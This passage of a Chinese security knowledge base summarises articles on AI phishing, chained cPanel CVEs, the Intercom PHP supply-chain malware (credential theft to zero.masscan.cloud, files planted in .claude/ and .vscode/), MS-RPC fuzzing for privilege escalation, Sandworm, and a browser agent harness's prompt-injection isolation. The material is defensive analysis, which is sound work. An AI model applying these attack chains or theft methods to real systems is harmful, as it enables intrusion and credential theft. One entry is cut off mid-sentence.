关键数字：4151%——自 ChatGPT 发布后钓鱼攻击增幅。这一数字的意义在于：不是线性增长，而是跨越数量级的跃升。SlashNext 的研究发现揭示 AI 使攻击者能以极低成本大规模复制成功攻击模式。
AI 钓鱼比传统钓鱼有效性高 24% 这一数据更具说明性：即使攻击频率不变，成功率也在上升。这意味着防御方的困境加倍——既要多应对更多攻击，单独每次攻击也更难识别。

### 成本结构颠覆
Harvard Business Review 报告指出 LLM 将钓鱼成本降低 95% 以上，这一成本颠覆具有深远影响：

- 传统钓鱼需要人工编写、测试、部署，成本与规模线性相关
- AI 钓鱼边际成本趋近于零，攻击者可对同一目标进行无限次变体尝试
- 这意味着"经济惩罚攻击者"的传统防御逻辑已失效

### 攻击者情报能力的质变
文章描述攻击者可"quickly scour the internet to find information about its victims, pulling from social media, data brokerage sites, and company resources"——AI 使攻击前的侦察阶段大幅缩短，过去需要数天手动 OSINT 的工作现在可自动化完成。
结合 deepfake 技术，攻击可模拟"a message from a boss about the project you are working on, a phone call from a neighbor about your pet, or a video chat from your grandson asking to be bailed out of jail"——高度个性化的攻击场景使标准安全培训难以覆盖。

### 人因漏洞的持续主导地位
60% 的漏洞源于人为错误这一统计未因 AI 到来而改变，反而被放大：

- 技术防御在进步，但人的判断力仍是最大攻击面
- AI 生成的内容在语法、语境上越来越难辨认真伪
- 紧迫感制造（"24小时内不解锁将起诉"）利用情绪决策，是纯技术防御无法覆盖的维度

## 实践启示
### 个人防御层
- **9秒停顿法**：研究显示 9 秒停顿足以让人更理性地反应——面对高紧急程度的消息，先等待再判断
- **多渠道验证**：不确定时，通过独立可信渠道联系所谓发送者——攻击者难以同时控制多个渠道
- **红色信号识别**：异常链接格式、视频中不自然的表情或动作、语法错误、过度紧急感

### 组织防御策略
- **打击规模化成本优势**：AI 钓鱼成本低意味着攻击者会对目标进行更持续、更多样化的尝试。防御方也需要规模化——定期模拟钓鱼测试、自动化威胁情报收集
- **从"阻止攻击"到"快速检测"范式转变**：成本不对称意味着完全阻止不可能，重点应放在快速发现和响应
- **密码管理器作为强制层**：Bitwarden 等工具的"trusted website autofill"和"dedicated website launch button"可防止钓鱼网站获取凭据——即使不小心访问了钓鱼网站，也不会自动填充凭据

### 技术防御建议
- 启用 passkey 存储替代密码，减少凭据被钓鱼的风险
- 对视频/语音 deepfake 保持警惕，尤其是涉及敏感请求的场景
- 监控异常登录模式，而不仅依赖单次认证

---

## Ch12.095 cPanel, WHM Release Fixes for Three New Vulnerabilities — Patch Now

> 📊 Level ⭐⭐ | 4.9KB | `entities/cpanel-whm-patch-3-new-vulnerabilities.md`

# cPanel, WHM Release Fixes for Three New Vulnerabilities — Patch Now
#1 Trusted Cybersecurity News Platform
Followed by 5.70+ million[__](https://twitter.com/thehackersnews)[__](https://www.linkedin.com/company/thehackernews/)[__](https://www.facebook.com/thehackernews)
[](http://thehackernews.com/)
[__](javascript:void(0))

## 相关实体
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Introducing Seer Agent The Answer Is Already In Sentry Now You Can Ask For It](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-seer-agent-the-answer-is-already-in-sentry-now-you-can-ask-for-it.md)
- [Airbyte Agents A New Era For Airbyte Airbyte](https://github.com/QianJinGuo/wiki/blob/main/entities/airbyte-agents-a-new-era-for-airbyte-airbyte.md)
- [Airbyte Agents](https://github.com/QianJinGuo/wiki/blob/main/entities/airbyte-agents.md)
- [5 Years And 5M Later Inventing A New](https://github.com/QianJinGuo/wiki/blob/main/entities/5-years-and-5m-later-inventing-a-new.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cpanel-whm-patch-3-new-vulnerabilities.md)

## 深度分析

cPanel 作为全球最广泛使用的 web hosting 控制面板之一，其安全漏洞影响范围极广。本次披露的三个漏洞（CVE-2026-29201、CVE-2026-29202、CVE-2026-29203）覆盖了从文件读取、代码执行到权限提升的完整攻击链，说明攻击者只需一个入口点即可完成从信息泄露到完全接管服务器的完整入侵过程。

其中 CVE-2026-29202 和 CVE-2026-29203 的 CVSS 评分均达到 8.8（高危），属于严重漏洞。前者允许经过认证的用户通过 plugin 参数注入任意 Perl 代码，后者则利用不安全符号链接处理实现任意文件的 chmod 操作，两者均可导致本地权限提升。这说明即使是非特权账户，一旦获得 cPanel 认证，即可向系统管理员乃至 root 权限横向移动。

值得注意的是，cPanel 官方列出了覆盖 11.94.0 至 11.136.0 的 12 个受影响版本区间，并针对仍在使用 CentOS 6 或 CloudLinux 6 的客户发布了专项更新 110.0.114。这种长尾版本支持策略虽体现了对老旧客户的责任感，但也意味着大量历史遗留版本可能仍在生产环境中运行，形成持续性安全风险。

就在此次补丁发布前几天，另一个关键漏洞 CVE-2026-41940 已被野外利用，用于传播 Mirai 僵尸网络变种和名为"Sorry"的勒索软件。这表明针对 cPanel/WHM 的漏洞利用已形成完整的武器化链条——从零日发现到payload交付均有现成工具支持。攻击者的攻击窗口极短，运维团队的补丁响应速度直接决定了被入侵的风险程度。

从攻击链路来看，cPanel 的漏洞利用链条典型路径为：通过 cPanel 账号的低权限入口（如 CVE-2026-29201 的文件读取）获取配置文件或凭证信息；再利用 CVE-2026-29202 实现代码执行；最后借助 CVE-2026-29203 的符号链接权限提升获得 root。这种组合式攻击大幅降低了入侵服务器的门槛。

## 实践启示

- 立即检查当前运行的 cPanel/WHM 版本，对照官方公告中的受影响版本列表。运行 `cPanel --version` 或通过 WHM 界面查看当前版本号，对仍在维护期内的版本（11.124.0.37 之前的所有 11.x 版本）应优先安排维护窗口进行升级。

- 对于仍在使用 CentOS 6/CloudLinux 6 的极老旧系统，即便官方已停止常规支持，也应特别关注本次专项更新 110.0.114。如果业务允许，建议制定迁移计划至受支持的操作系统版本，因为这些系统的底层漏洞修复空间已经非常有限。

- 建立 cPanel 漏洞响应专项流程，将此次披露作为触发点重新审视：cPanel 管理账号的密码策略、多因素认证（MFA）强制开启、以及通过 CSF/ConfigServer 等防火墙限制 adminbin 调用来源 IP。最小权限原则要求非必要不从公网访问 WHM 接口。

- 监控针对 CVE-2026-41940 等已被武器化漏洞的扫描活动。由于 Mirai 等僵尸网络通常通过自动化扫描寻找暴露的 cPanel 管理端口（2082/2083、2086/2087），对公网暴露的 cPanel/WHM 接口应纳入 SOC 重点监控范围。

- 将 cPanel 纳入补丁管理 SLA 考核体系。对于承载关键业务的主机，设定漏洞披露后 72 小时内完成补丁测试和部署的目标，并记录在案。漏洞利用的窗口期正在随 AI 辅助攻击工具的普及而显著缩短。

---

## Ch12.096 semgrep intercom php security

> 📊 Level ⭐⭐ | 4.7KB | `entities/semgrep-intercom-php-security.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/semgrep-intercom-php-security.md)

# Semgrep Intercom PHP Supply Chain Attack
Semgrep: Intercom PHP 供应链攻击 Mini-Shai-Hulud，Packagist/Composer 投毒

## 摘要
At RSA, we launched Semgrep Multimodal to combine AI reasoning with rule-based detection [Learn More → ](https://semgrep.dev/blog/2026/attackers-cant-...

## 原文存档
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/semgrep-intercom-php-security.md)

## 相关资源
## 深度分析
Intercom PHP供应链攻击（Mini Shai-Hulud行动）揭示了Packagist/Composer生态中一个根本性的架构安全缺陷：Packagist缺乏发布前的安全审查门禁，任何已标记版本的代码更新都会在Webhook触发后自动向全网提供服务。
**1. Composer/Packagist的"Tag即发布"模型是这场攻击的结构性根源。** 与PyPI/npm不同，Packagist不存储tarball，而是注册GitHub VCS仓库URL并爬取composer.json。当作者推送恶意tag时，Webhook立即触发，Packagist重新索引，全网任何人运行`composer update`都会在几分钟内收到恶意版本。没有任何预发布隔离区、没有任何人工审批——这是npm/PyPI在多次重大攻击后才逐步引入安全机制之前的等价状态。
**2. 横向移动（lateral movement）能力使这次攻击影响远超常规供应链投毒。** 恶意代码在包安装时执行（而非使用时执行），意味着只要CI/CD服务器或开发机安装了5.0.2版本，攻击者就能窃取GitHub token、SSH key、云服务商凭证、环境变量——并通过加密和外部C2服务器（zero.masscan.cloud）外泄。这不仅仅是代码被污染的问题，而是整个开发基础设施的credentials被一次性收割。
**3. Semgrep Supply Chain的可达性分析（reachability analysis）是本次响应的关键能力——它不仅检查composer.lock中是否有问题版本，还检查代码是否实际调用了有漏洞的函数。** PHP的可达性分析覆盖2017年以来的高危和严重CVEs，意味着即使某依赖有漏洞，但如果代码从未调用危险函数，则不会报告为严重风险。这个设计显著降低了安全告警噪音。
**4. 恶意包在文件系统中留下的痕迹（.claude/router_runtime.js、.vscode/setup.mjs、results/results-*.json）表明攻击者针对的是开发者工具链本身，而非应用代码。** .claude/和.vscode/是Claude Code和VS Code的配置目录——这意味着攻击者预判了目标环境中存在AI编程工具，试图通过污染开发环境来获取更高价值的会话上下文和API密钥。

## 实践启示
**对于PHP开发者：** 立即检查composer.lock和项目中是否存在intercom/intercom-php@5.0.2。如果使用了受影响版本，立即撤销所有可能暴露的credentials（GitHub token、SSH key、云服务商密钥），并审计~/.composer/目录是否存在异常文件。重点关注.claude/和.vscode/目录——如果发现非预期的setup.mjs或router_runtime.js文件，立即隔离并审计。
**对于DevSecOps团队：** composer.lock必须提交到版本控制，并配置CI/CD在构建时进行依赖扫描。Packagist缺乏预发布安全门禁意味着：锁定已知-good版本号（而非使用^5.0.2这样的宽松范围）是防御供应链投毒的最低成本手段。对于高敏感项目，考虑使用private Packagist mirror或Artifactory对上游依赖做镜像审查。
**对于安全工具厂商：** Semgrep的这次快速响应（多生态联动：PyPI+npm+Packagist）展示了自动化威胁情报共享的价值。在新攻击手法可以在多平台快速复制的今天，安全规则的生成和分发速度是竞争的关键维度。

## 相关资源
- [Agent Memory 架构](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-memory-architecture.md)
- [Claude Managed Agents 开发者指南](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-managed-agents-developer-guide.md)

## 相关实体

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/2026.md)

- [semgrep intercom php supply chain](https://github.com/QianJinGuo/wiki/blob/main/entities/semgrep-intercom-php-supply-chain.md)

---

## Ch12.097 A DOD contractor’s API flaw exposed military course data and service member records

> 📊 Level ⭐⭐ | 4.6KB | `entities/schemata-dod-contractor-api-flaw-military-data-exposure.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/schemata-dod-contractor-api-flaw-military-data-exposure.md)

## 相关实体

- [Versa takes aim at fragmented enterprise security with CSPM, orchestration update, and AI agent controls](https://github.com/QianJinGuo/wiki/blob/main/entities/www-networkworld-com-versa-takes-aim-at-fragmented-enterprise-security.md)
- [We Tested DeepSeek V4 Pro and Flash Against Claude Opus 4.7](https://github.com/QianJinGuo/wiki/blob/main/entities/wetesteddeepseekv4proandflashagainstclau.md)
- We Tested DeepSeek V4 Pro and Flash Against Claude

## 深度分析
Schemata是一家面向美国国防部（DoD）和企业市场的AI驱动虚拟训练平台供应商，其API漏洞被安全研究项目Strix发现并于2026年5月公开披露。漏洞的核心是**缺乏合理的授权检查（broken authorization）**：一个持有低权限普通账户的研究人员，通过观察正常浏览器流量识别出API端点，随后使用自己的会话发出了跨租户（cross-tenant）数据请求——系统直接返回了其他组织的数据。这不是复杂的0day漏洞利用，而是一个在SDLC（安全开发生命周期）早期就应被识别和修复的基础性缺陷。
暴露的数据包括：海军维护人员的3D虚拟培训课程（含机密标记文件）、陆军爆炸物处理和战术部署field manuals、数百名服务人员的姓名、邮箱、注册详情和驻扎基地信息。考虑到这些数据来自一个持有$3.4M DoD合同、且在2025年5月刚获得a16z等机构$5M融资的创业公司，安全成熟度与合同金额之间的差距令人警惕。
更值得关注的是漏洞披露的时间线。Strix于2025年12月2日首次尝试联系Schemata，得到的回复竟是"我猜你想收费吧？"——这一回应反映了当前安全研究员与厂商之间的信任鸿沟。尽管Strix当天即表明无需报酬、仅关注用户安全，Schemata的CEO仍在超过5个月后才实质性回应，直到Strix警告即将公开发布才紧急修复。这150天的窗口期意味深长：对于一个服务于美国军方的AI平台，如果在公开披露前仍未修复，任何有针对性威胁行为者都可能在此期间发现并利用该漏洞。

## 实践启示
- **多租户架构的授权边界必须作为一等公民设计**：在多租户SaaS架构中，租户隔离失效（cross-tenant data leak）是最常见也最容易被忽视的高危漏洞。开发团队应将每个API请求的租户ID验证纳入强制检查，而非依赖前端过滤。对所有查询类API实施"当前用户所属租户与请求数据租户ID一致性"校验，应成为数据库访问层的基础设施级安全策略。
- **安全研究员对接流程的制度化**：Schemata案例表明，创业公司在快速扩张期往往缺乏正式的漏洞接收和处理流程。对于处理敏感数据的B2B产品，建立清晰的security.txt、配备专门的安全响应渠道，并在收到报告后设定明确的SLA（建议72小时内初步响应、30天内修复高危漏洞），不仅是保护用户的安全实践，也是在发生事件时降低法律和声誉风险的关键。
- **漏洞披露的"善意假设"与法律保护**：Strix使用的"公开威胁"策略（暗示不修复将公布）是当前安全社区的标准做法，但厂商对此往往反应过度（误以为是勒索）。建立负责任的漏洞披露政策，明确表示不寻求报酬，并在发现威胁行为者利用证据时设有紧急升级路径，有助于在法律层面保护安全研究员，同时加速修复流程。
- **融资与安全投入的匹配性审查**：a16z等顶级VC投资AI国防创业公司，但投资金额（$5M）与安全成熟度之间的反差值得警惕。收购方和DoD合同管理部门可能需要重新评估供应商安全评估流程的充分性——$3.4M的DoD合同意味着该公司有权访问敏感的CUI（受控非保密信息），其安全态势是否经过独立审计而非仅依赖自我申报？控制非分类信息（CUI）的处理要求DoD合同商具备特定的报告和防护机制，此次事件或触发对中小企业供应商安全评估标准的重新审视。

---

## Ch12.098 Anthropic's bug-hunting Mythos was greatest marketing stunt ever, says cURL creator

> 📊 Level ⭐⭐ | 4.3KB | `entities/5238111.md`

# Anthropic's bug-hunting Mythos was greatest marketing stunt ever, says cURL creator

Title: Anthropic's bug-hunting Mythos was greatest marketing stunt ever, says cURL creator
URL Source: https://www.theregister.com/security/2026/05/11/anthropics-bug-hunting-mythos-was-greatest-marketing-stunt-ever-says-curl-creator/5238111/
Published Time: 2026-05-11T16:30:53.000Z

cURL 项目创始人 Daniel Stenberg 测试了 Anthropic 的 Mythos AI 安全扫描模型后，只发现 1 个低危漏洞。他将 Mythos 的炒作定性为"主要是一场营销活动"，认为其能力被严重夸大了。

## 深度分析

1. **Mythos 实际效果远低于宣传**: Anthropic 声称 Mythos 过于强大不能公开，但实际扫描 cURL 代码库只发现 1 个确认漏洞（计划6月底发布为低危 CVE），而Mythos 最初报告的5个"确认安全漏洞"中，3个是误报，1个只是普通 Bug。

2. **AI 代码分析工具整体已有显著进步**: Stenberg 指出"AI 驱动的代码分析器在发现源代码安全漏洞方面显著优于过去的传统代码分析器"，但他强调"所有现代 AI 模型现在都很擅长这一点"——Mythos 并无特别突出之处。

3. **AI 仍然只能发现已知类型漏洞**: 自 cURL 项目运行各种静态代码分析器和模糊测试工具以来，触发了 200-300 个 Bug 修复，其中十几个已确认为漏洞并发布 CVE。Stenberg 明确表示："AI 工具只能找到我们已知的那类常规错误，找到新的实例而已。迄今为止我们还没有看到任何 AI 报告过某种全新类型的漏洞。"

4. **cURL 项目经验使其成为优秀测试用例**: cURL 团队在 AI 时代之前就已使用各种工具进行安全测试，这意味着 Mythos 不是第一个分析 cURL 的 AI 工具，因此可以有效对比其实际能力提升。

5. **营销价值而非技术突破**: Stenberg 在博客中直接称 Mythos 为"一场惊人的成功营销活动"，并表示"围绕这个模型的大部分炒作主要只是营销，我没有看到任何证据表明这个设置比之前的其他工具更高或更先进地发现问题"。

## 实践启示

1. **对 AI 安全工具保持理性预期**: 不要因为供应商的营销炒作而期待 AI 能发现"革命性"漏洞，实际验证才是判断工具价值的关键。

2. **建立 AI 报告的人工复核流程**: 即使 AI 工具报告高可信度漏洞，也需要安全团队深入验证——cURL 团队花了数小时才将 5 个报告缩减为 1 个确认漏洞。

3. **利用 AI 处理已知漏洞模式**: AI 在发现已知类型漏洞方面效率较高，可用于大规模代码库的初筛，但复杂和新类型漏洞仍需人类专家。

4. **开源项目应谨慎管理 Bug Bounty**: Stenberg 于2026年1月关闭了 cURL 的 Bug Bounty，因大量无用 AI 报告涌入——需要建立有效的过滤机制区分高质量 AI 报告和垃圾报告。

5. **人类创造力不可替代** — "未来许多安全 Bug 将由人类想出新的方式来提示 AI 而发现"——关键在于人类如何创造性地运用 AI 工具，而非将批判性思维外包给机器人。

## 相关实体
- `AI安全全景` — AI代码分析工具的安全与攻击全景
- `MCP生产模式` — Anthropic的工具调用安全实践

## 相关实体
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Anthropic Mythos Bug Hunting Marketing](https://github.com/QianJinGuo/wiki/blob/main/entities/anthropic-mythos-bug-hunting-marketing.md)
- [Www.Infoworld 4171274 Anthropic Puts Claude Agents On A Meter Across Its Subscri](https://github.com/QianJinGuo/wiki/blob/main/entities/www.infoworld-4171274-anthropic-puts-claude-agents-on-a-meter-across-its-subscri.md)
- [Harness Engineering Three Evolutions](https://github.com/QianJinGuo/wiki/blob/main/entities/harness-engineering-three-evolutions.md)
- [Introducing Claude Platform On Aws Anthropics Native Platfor](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-claude-platform-on-aws-anthropics-native-platfor.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.099 incendium fuzzing ms rpc

> 📊 Level ⭐⭐ | 4.1KB | `entities/incendium-fuzzing-ms-rpc.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/incendium-fuzzing-ms-rpc.md)

# Incendium MS-RPC Fuzzing
Incendium: Microsoft RPC 接口深度模糊测试，漏洞发现方法论

## 摘要
[](/) [Remco van der Meer](/) Ethical Hacker, Security researcher

## 深度分析
Incendium 项目展示了 MS-RPC 模糊测试的方法论演进：通过递归式结构填充处理嵌套结构、通过 Union 类型识别处理 discriminant + arm 的复杂类型、以及用 ETW 替代 Process Monitor 实现全自动化。该研究最终发现了可从普通用户权限 Escalate 到 `NT AUTHORITY\SYSTEM` 的 privilege escalation 路径。
**递归模糊的核心设计**：三个函数 `New-FuzzedInstance` / `Get-FuzzFieldValue` / `New-NdrEmbeddedPointerValue` 形成 mutually recursive loop，通过 `$Depth` counter（上限 8）和 `$Visited` type set 双重 guard rail 防止无限递归，同时正确处理 NDR 两种数据布局——embedded（inline struct）和 pointer（deferred `NdrEmbeddedPointer<T>`）。这是对 MS-RPC 复杂类型系统的系统性覆盖。
**Union type 处理的关键洞察**：NDR marshaler 严格依赖 discriminant 字段决定序列化哪个 arm。如果 discriminant 与 populated arm 不匹配，会抛出 `No matching union selector` 错误。研究者采用保守策略：在 struct 内发现 Union_N 字段时，将所有 preceding integer-like 字段都设置为选中的 arm index。缓存复用场景下，含 Union 的类型必须用 `New-FuzzedInstance` 重新生成而非从缓存读取，否则 discriminant 可能与新上下文不匹配导致 marshal 失败。
**ETW 替换 ProcMon 的工程价值**：传统 ProcMon 需要独立的 GUI 工具，增加了模糊测试的复杂度。通过 `SyscallMonitor.cs` 直接调用 `StartTraceW` / `EnableTraceEx2` / `ProcessTrace` 的原生 ETW API，并使用 raw `EVENT_RECORD` 指针（在 managed `System.Diagnostics.Eventing` 中不可用），实现了完全自包含的终端内监控，包括高权限账户（S-1-5-18/19/20）syscall 实时告警。

## 实践启示
1. **模糊测试嵌套结构时实现递归遍历**：不要只填充顶层字段，对每个复杂类型字段递归调用 fuzzing 函数，同时用深度上限和类型访问记录防止无限递归和循环引用。
2. **Union 类型必须配套处理 discriminant**：不只是随机选 arm，还要设置 preceding integer fields 为对应 discriminant 值；在缓存复用场景下，对含 Union 的类型要强制重新生成。
3. **用 ETW 替代 GUI 监控工具**：在 fuzzing 场景中，ProcMon 这类 GUI 工具不适合集成到自动化 pipeline。ETW 提供纯 programmatic 的 kernel-level 追踪能力，适合 headless 环境。
4. **关注 RPC 接口的 privilege escalation**：MS-RPC 接口往往以高权限服务运行，本研究展示了用户输入如何通过 RPC 调用链到达 `system` 级别操作——这是横向移动和权限提升的经典路径。
5. **Canary + ETW 实时告警组合**：在 fuzzing 时使用可识别前缀（`incendiumrocks_`）作为 canary，配合 ETW 实时监控 file/registry 操作，实时捕获哪些 RPC 程序/端点触发了哪些路径，是高效缩小攻击面的方法。

## 相关资源
- [Agent Memory 架构](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-memory-architecture.md)
- [Claude Managed Agents 开发者指南](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-managed-agents-developer-guide.md)
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/incendium-fuzzing-ms-rpc.md)

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)

---

## Ch12.100 How Semgrep Cut Taint Analysis Time by 75%

> 📊 Level ⭐⭐ | 4.0KB | `entities/how-semgrep-cut-taint-analysis-time-by-75.md`

# How Semgrep Cut Taint Analysis Time by 75%

Markdown Content:
_Semgrep Pro Engine 1.158.0 and onwards is now shipping a redesigned taint analysis engine resulting in up to 75% speedups on full scans. This is the second in a three part series on improving the performance of Semgrep._

In the [previous blog post](https://semgrep.dev/blog/2026/announcing-pyro-caml-continuous-profiler-ocaml/) we discussed a new continuous profiler we released for OCaml, called Pyro Caml. The motivation behind building it was so we could improve the performance of Semgrep, whose core analysis engine is written in OCaml. In this blog post we’ll explore how we used it to validate where we thought our biggest bottleneck was, and how doing something once instead of twice is a great way to improve the performance of your programs. Specifically, the 95th percentile of Semgrep scan times went from 10 minutes, to 7 minutes 30 seconds, and our P99 went from a very noisy ~45 minutes on average, to a much more consistent 35 minutes. Additionally, the number of scans reaching the max allowable scan time dropped significantly.

## Motivation: Why Taint Analysis Was Costing a Third of Our CPU Time[](http://semgrep.dev/blog/2026/how-we-cut-semgreps-taint-analysis-time-by-75-percent/#motivation:-why-taint-analysis-was-costing-a-third-of-our-cpu-time "Motivation: Why Taint Analysis Was Costing a Third of Our CPU Time")

### How Taint Analysis Works: Sources, Sinks, and Data Flow[](http://semgrep.dev/blog/2026/how-we-cut-semgreps-taint-analysis-time-by-75-percent/#how-taint-analysis-works:-sources,-sinks,-and-data-flow "How Taint Analysis Works: Sources, Sinks, and Data Flow")

The Semgrep engine has something called a matching engine that runs a set of rules _._ There’s a bunch of great explanations of matching out there, but in short, Semgrep will take patterns like `do_thing( … )` and flag code such as `do_thing(arg1, arg2)` or `do_thing(x, y)`. This is useful for finding all sorts of vulnerabilities, but it was supercharged when we [released support for taint analysis,](https://semgrep.dev/blog/2021/taint-mode-is-now-in-beta/https://semgrep.dev/blog/2021/taint-mode-is-now-in-beta/) all the way back in 2021. This would let you find code patterns such as:

Specifically, you could write patterns that track the flow of data through a program, and flag places they might “taint” in that flow, such as tracking user input flowing into an arbitrary eval function, like in the above example.

This first pass of taint analysis was only **intra-procedural**, meaning that within a file we could usually detect how the data flows. If the user input flowed into some function that was defined in another file though, and that other function had an eval, we wouldn’t detect it. This is called **interfile** analysis, for obvious reasons.

Many users had been asking for exactly this, and so two year

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/how-semgrep-cut-taint-analysis-time-by-75.md)

---

## Ch12.101 Sandworm Hackers Shift From IT Breaches to Critical OT Targets

> 📊 Level ⭐⭐ | 4.0KB | `entities/sandworm-hackers-shift-it-breaches-ot-gbhackers.md`

## 核心要点
- Sandworm 是俄罗斯军事情报局 (GRU) 关联的知名黑客组织
- 近期活动显示从传统 IT 网络转向工业控制系统 (ICS) 和操作技术 (OT)
- 曾于 2015、2016 年对乌克兰电网发起攻击导致大范围停电
- OT 系统传统上与 IT 网络物理隔离，但现代化（Industry 4.0）创造了新的攻击面

## 技术洞察
**OT 安全 vs IT 安全的根本区别**：
1. **物理世界影响** — OT 系统故障直接导致物理世界后果（停电、水处理中断），而非数据泄露
2. **可用性优先** — IT 安全通常优先保密性，OT 安全优先可用性和完整性
3. **传统系统遗留** — 许多 OT 系统运行数十年未更新，无法打补丁
4. **实时性要求** — OT 系统有严格的实时要求，安全措施不能干扰生产流程
**防御建议**：

- 网络分段（air-gapping）
- 深度防御架构
- OT 特定的事件响应计划
- 持续监控和威胁情报
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/sandworm-hackers-shift-it-breaches-ot-gbhackers.md)

## 深度分析
**国家级黑客组织转向 OT 关键基础设施的战略意涵**：
1. **攻击目标质变**：传统 IT 入侵旨在数据泄露和经济 espionage；OT/ICS 攻击直接关联物理世界——电网断电、水处理中断可造成大规模人道灾难
2. **历史先例的警示**：Sandworm 已在 2015、2016 年对乌克兰电网实施攻击并导致大范围停电，证明其有能力将网络入侵转化为物理破坏
3. **IT/OT 融合带来的新攻击面**：Industry 4.0、智能制造、远程监控等倡议打破了传统的空气隔离（air-gap），将过去完全隔离的 OT 系统接入企业网络和互联网
4. **国家级资源的非对称优势**：Sandworm 作为 GRU 下属组织，拥有国家级的耐心、持续性和行动安全——不像网络犯罪分子追求快速获利，国家黑客可以潜伏数年等待时机
5. **归因困难**：国家黑客组织可以模仿犯罪分子行为模式，OT 攻击的归因和威慑比传统网络犯罪更复杂
这一战略转向意味着关键基础设施的防护不能继续依赖"边界安全"思维，而需要将 OT 安全视为与 IT 安全同等甚至优先的防护目标。

## 实践启示
- **OT 安全建设**：优先实施网络分段（network segmentation），确保 OT 系统与 IT 网络之间有严格控制的接口；无法完全空气隔离的系统应采用深度防御架构
- **监控与响应**：建立 OT 特定的事件响应计划；部署 OT 流量的持续监控以检测异常协议和命令——传统的 IT SIEM 无法识别 ICS 特定攻击信号
- **供应链安全**：OT 设备和系统的采购应审查供应商安全资质；国外采购的工业控制系统存在供应链植入风险
- **国际合作**：OT 攻击关键基础设施可能构成战争行为；各国需在北约/WTO 等框架外建立网络安全威慑和快速响应机制
- **关基企业**：电力、水务、医疗、制造等关键基础设施运营企业必须立即进行 OT 安全评估，摸清已连接互联网的 ICS 系统暴露面

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [New cybersecurity industry coalition aims to lead US critical infrastructure protection](https://github.com/QianJinGuo/wiki/blob/main/entities/new-cybersecurity-coalition-us-policy.md)
- [From Doer To Director: The AI Mindset Shift](https://github.com/QianJinGuo/wiki/blob/main/entities/from-doer-to-director-the-ai-mindset-shift.md)
- [CISA urges critical infrastructure firms to ‘fortify’ before it’s too late | Cybersecurity Dive](https://github.com/QianJinGuo/wiki/blob/main/entities/cisa-urges-critical-infrastructure-firms-to-fortify-before-i.md)

---

## Ch12.102 peerd: 浏览器原生的 AI Agent Harness

> 📊 Level ⭐⭐ | 4.0KB | `entities/peerd-browser-native-agent-harness.md`

# peerd: 浏览器原生的 AI Agent Harness

peerd 是第一个完全运行在浏览器中的 [AI Agent Harness](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md)——一个 Chrome/Firefox 扩展，在你现有的浏览器中运行完整的 agent loop，驱动你的标签页，启动沙箱化计算环境（JS Notebook、WASM Linux VM、客户端应用），并通过 WebRTC 网络实现 peer-to-peer 的 agent 间通信。

## 架构创新

peerd 的核心设计决策是**将浏览器本身作为运行时和安全模型**，而非在浏览器之上构建额外的隔离层：

- **V8 isolates** 提供沙箱隔离
- **WebCrypto** 管理密钥保险库
- **WebAuthn passkeys** 解锁访问
- **Opaque-origin iframes** 实现内容隔离
- **Subresource Integrity** 验证代码完整性

peerd **不自行编写任何加密或进程隔离代码**——完全复用浏览器平台数十年积累的安全基础设施。

## 安全模型：双角色架构

这是 peerd 最独特的设计贡献：

1. **Key-holder agent**：持有 API 密钥，负责推理和决策，但**永远不接触原始页面内容**
2. **Disposable runner**：无密钥、无网络权限的临时执行器，负责读取页面内容
3. **Fenced output**：runner 的输出被标记为不可信（fenced as untrusted）
4. **动作验证**：每个 agent 驱动的操作都必须在实际页面上验证后才算完成

这种分离确保了即使 runner 被注入恶意内容（prompt injection），key-holder 也不会泄露密钥。

## 计算沙箱

peerd 提供三层沙箱化计算环境：

- **JS Notebooks**：轻量级代码执行
- **WASM Linux VMs**：完整的 Linux 环境编译为 WebAssembly
- **Client-side apps**：个人应用的本地运行

所有计算都在浏览器沙箱内完成，无后端依赖。

## Peer-to-Peer Agent 通信（Preview）

peerd 的 preview channel 支持通过 WebRTC 进行 agent-to-peer 通信：

- **无中心服务器**：agent 之间直接通信
- **WebRTC 数据通道**：低延迟、端到端加密
- **DWeb 协议**：研究级别，仍在演进中

## BYOK 模式

Bring Your Own Key——用户可以连接任何模型提供商（OpenAI、Anthropic、本地模型等），peerd 不强制绑定特定模型。

## 与其他 Agent Harness 的差异化

| 维度 | peerd | Claude Computer Use | OpenAI Operator | 传统 Browser Agent |
|------|-------|--------------------|-----------------|-------------------|
| 运行位置 | 浏览器扩展 | 云端/API | 云端 | 云端/本地 |
| 后端依赖 | 无 | 有 | 有 | 通常有 |
| 安全模型 | 浏览器原生 + 双角色 | API 层 | 云端沙箱 | 自定义 |
| Agent 间通信 | P2P WebRTC | 无 | 无 | 无 |
| 密钥管理 | WebCrypto vault | API 传参 | 云端 | 环境变量 |
| 沙箱 | V8 isolates + WASM | 无 | 云端 | 自定义 |

## 当前状态

0.x 实验性 beta。初始功能已完成集成，但 API 表面仍在变动，breaking changes 可能发生，存储格式可能变化。

## 三个独有贡献（不应合并到现有 entity）

